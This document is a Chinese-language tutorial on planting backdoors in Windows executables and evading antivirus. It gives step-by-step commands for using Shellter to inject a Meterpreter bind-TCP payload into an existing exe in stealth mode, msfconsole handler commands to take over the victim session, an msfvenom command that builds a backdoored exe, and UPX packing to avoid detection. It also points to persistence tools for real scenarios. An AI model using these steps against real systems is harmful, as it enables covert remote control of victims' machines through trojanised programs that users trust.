

记录一下最简单的挂后门和免杀方法，不怎么接触这块。

<!--more-->

主要介绍两个工具：Shellter 和 Upx，后者 Kali 自带。Shellter 的安装略有点复杂，因为需要 wine32 的支持。使用的 Kali 是 64 位的。

首先 `apt install shellter` 应该不会有什么问题，但是启动的时候会提示缺少 wine32，因此执行：

```shell
$ dpkg --add-architecture i386 && apt-get update && apt-get install wine32
```

这一步会花费很长时间，因为 wine 本身很庞大。装完后应该就可以正常使用了。

## 通过 Shellter 篡改 exe 文件

随意取一个 exe 文件作为我们要加入后门的可执行文件。首先启动 shellter，会看到：


输入 `A` 选择自动模式，随后输入 exe 文件所在路径，程序便会自动运行，分析原文件并插入恶意代码。这个过程大约持续不到一分钟。

输入 `Y` 开启隐蔽模式，随后选择使用它列出的七种 payload 还是自定义，这里我们输入 `L` 选择列出的 payload。

带 `Meterpreter` 前缀的是指可以通过 MSF 获取会话的 payload，方式有正向 `Bind` 与反向 `Reverse` 两种。`Bind` 顾名思义，就是用户打开 exe 后，将会在用户主机上开放一个端口，攻击者去连接那个端口就可以获取会话。`Reverse` 则是反过来，使用户主机连接攻击者开放的端口来获取会话。而带 `Shell` 前缀的 payload 可以直接反弹 shell 给攻击者。

攻击者还可以通过不同的协议来获取会话，比如任意 TCP 协议，HTTP/HTTPS 协议等。这里以选择 4 号 payload `Meterpreter_Bind_TCP` 为例。

最后要求设置 `LPORT` 也就是要在目标主机上打开的端口，只要是没有被占用的端口都可以，比如这里可以设置 `60000` 端口。

完成以后，新的 exe 文件就是已经被植入后门的 exe 文件，相比于原文件，它占空间多了一点，其它地方似乎看不出什么区别。

## 通过 Meterpreter 获取会话

假设目标主机（Windows）获得了新的 exe 文件。在双击打开前，我们查看用 `netstat -an` 查看其已经开放的端口：

```
Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING
  TCP    192.168.159.128:139    0.0.0.0:0              LISTENING
  TCP    192.168.159.128:1244   112.34.111.235:443     FIN_WAIT_2
  UDP    0.0.0.0:445            *:*
  UDP    127.0.0.1:123          *:*
  UDP    127.0.0.1:1025         *:*
  UDP    127.0.0.1:1219         *:*
  UDP    192.168.159.128:123    *:*
  UDP    192.168.159.128:137    *:*
  UDP    192.168.159.128:138    *:*
```

然后我们双击打开，发现和原来的 exe 完全没有区别。再次查看端口情况可以发现，`60000` 端口悄悄开启了：

```
Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:60000          0.0.0.0:0              LISTENING
  TCP    192.168.159.128:139    0.0.0.0:0              LISTENING
  TCP    192.168.159.128:1244   112.34.111.235:443     FIN_WAIT_2
  UDP    0.0.0.0:445            *:*
  UDP    127.0.0.1:123          *:*
  UDP    127.0.0.1:1025         *:*
  UDP    127.0.0.1:1219         *:*
  UDP    192.168.159.128:123    *:*
  UDP    192.168.159.128:137    *:*
  UDP    192.168.159.128:138    *:*
```

接下来我们看看攻击者要怎么操作来获取会话。

首先要确保攻击者和目标主机在同一网段。打开 `msfconsole`。依次输入：

```bash
use exploit/multi/handler
set payload windows/meterpreter/bind_tcp
set lport 60000
set rhost 192.168.159.128
exploit
```

其中 `rhost` 需要改为目标主机的内网 IP。

这样以后，就可以获取会话，并执行任意命令了（会话的作用不局限于执行 shell 命令）：


需要注意的是，一旦用户关闭 exe 文件，会话也将随之关闭。因此实际场景中常常配合持久化提权工具使用。

## 使用 msfvenom 直接生成带后门的 PE 文件

上面的例子需要修改一个已有的 exe 文件，这里我们可以直接生成这样的带后门的文件：

```shell
$ msfvenom -p windows/meterpreter/bind_tcp lport=60001 -f exe > test.exe
```

端口号依然可以是任意未被占用的端口。msfvenom 也提供了许多选项实现免杀，这里不一一介绍了。

## 使用 Upx 给程序加壳

这样做的作用主要有两个：压缩文件大小和免杀。然而 Upx 加壳毕竟是最最简单的免杀方法，现在的绝大多数杀毒软件都能轻易脱壳。举个例子，给刚才生成的 exe 文件加壳，只需要：

```shell
$ upx -9 test.exe
```

`-1` 参数压缩得最快，`-9` 参数压缩质量最高。

## 后记

这篇文章叙述的方法是最初级的植入后门的方法，略过了很多有一定难度的细节，详情参见 Shellter/Upx/msfvenom 的文档。
